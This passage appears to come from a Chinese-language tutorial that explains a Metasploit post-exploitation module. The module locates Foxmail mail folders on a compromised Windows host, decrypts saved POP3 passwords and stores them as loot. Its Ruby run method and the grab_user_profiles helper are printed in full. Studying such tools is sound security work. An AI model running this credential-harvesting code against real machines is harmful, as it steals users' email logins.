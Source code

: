 接下来`run`方法的逻辑也很清楚，就是

```
遍历用户 -> 在用户目录寻找Foxmail文件夹 -> 遍历本地邮箱 -> 破解POP3密码 -> 将破解的登陆凭证保存到数据库
```

```ruby
    def run
        profile = grab_user_profiles()
        counter = 0
        data_entry = ""
        profile.each do |user|
            if user['LocalAppData']
                full_path = user['LocalAppData']
                full_path = full_path + "\\VirtualStore\\Program Files (x86)\\Foxmail\\mail"
                if directory?(full_path)
                    print_good("Foxmail installed, enumerating mail accounts...")
                    session.fs.dir.foreach(full_path) do |dir_list|
                        if dir_list =~ /@/
                            counter = counter + 1
                            full_path_mail = full_path + "\\" + dir_list + "\\" + "Account.stg"
                            if file?(full_path_mail)
                                print_good("Reading mail account #{counter}")
                                file_content = read_file(full_path_mail).split("\n")
                                file_content.each do |hash|
                                    if hash =~ /POP3Password/
                                        hash_data = hash.split("=")
                                        hash_value = hash_data[1]
                                        if hash_value.nil?
                                            print_error("No saved password.")
                                        else
                                            print_good("Decrypting password for mail account: #{dir_list}")
                                            decrypted_pass = decrypt(hash_value, dir_list)
                                            data_entry << "Username:" + dir_list + "\t" + "Password:" + decrypted_pass + "\n"
                                        end
                                    end
                                end
                            end
                        end
                    end
                end
            end
        end
        store_loot("Foxmail Accounts", "text/plain", session, data_entry, "Fox.txt", "FoxMail Accounts")
    end
```

开头的`grab_user_profiles()`函数还是蛮有趣的，我们深入解读一下，这样能够了解更多的Metasploit和操作系统的细节：它位于`msf/core/post/windows/user_profiles.rb`：

```ruby
  #
  # Load the registry hive for each user on the machine and parse out the
  # user profile information. Next, unload the hives we loaded and return
  # the user profiles.
  #
  def grab_user_profiles
    hives = load_missing_hives()
    profiles = parse_profiles(hives)
    unload_our_hives(hives)
    return profiles
  end
```
